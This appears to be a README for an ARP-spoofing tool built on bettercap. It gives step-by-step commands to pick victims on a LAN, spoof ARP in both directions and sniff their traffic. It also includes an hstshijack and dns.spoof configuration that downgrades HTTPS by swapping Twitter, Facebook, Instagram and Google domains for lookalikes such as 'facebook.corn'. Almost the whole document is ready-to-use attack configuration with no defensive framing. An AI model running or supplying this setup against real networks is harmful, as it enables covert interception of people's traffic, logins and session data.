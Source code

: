 # Bettercap ARPSpoofer

## Prerequisutes
1. Make sure you have namp/netdiscover installed (could also use nmap for host scanning).
2. Bettercap should be installed as well.

## Usage
1. Find some hosts to spoof within your LAN.
   1. `bettercap -iface <interface>`
   2. `net.probe on`
   3. `net.show`
   4. Pick a client and exit bettercap.
   5. __Note: Can also use netdiscover or nmap for host scanning.__
2. Create/Edit your spoof caplet (spoof.caplet)
   1. `set arp.spoof.fullplex true`  : Capture both incoming/outgoing traffic. 
   2. `set arp.spoof.targets <target ip/mac>` : Comma-separated list of IPs/MACs to spoof.
   3. `set net.sniff.local true` :  Sniff local (attackbox) traffic as well - needed for bypassing HTTPS.
3. Edit hstshijack config file to bypass specific sites configured with HSTS.
   1. `nano /usr/local/share/bettercap/caplets/hstshijack/hstshijack.cap `
   2. Targets and replacements could look like this… (customize to your liking)
      `
    set hstshijack.targets         twitter.com,*.twitter.com,facebook.com,*.facebook.com,instagram.com,*.instagram.com,google.com,*.google.com, gstatic.com, *.gstatic.com
    set hstshijack.replacements    twiter.com,*.twiter.com,facebook.corn,*.facebook.corn,instagam.com,*.instagam.com,google.corn,*.google.corn,gstatic.corn,*.gstatic.corn
    `
   3. dns.spoof.domains could look like this... (customize to your liking) 
    `
    dns.spoof.domains
    set dns.spoof.domains  twiter.com,*.twiter.com,facebook.corn,*.facebook.corn,instagam.com,*.instagam.com,google.corn,*.google.corn,gstatic.corn,*.gstatic.corn
    `
4. Start bettercap with customized caplet.
   1. `bettercap -iface <interface> -caplet <capletfile>`
   2. Example: `bettercap -iface eth0 -caplet spoof.caplet`
5. Enable/Verify hstshijack caplet is enabled.
   1. `hstshijack/hstshijack`
   2. `caplets.show`







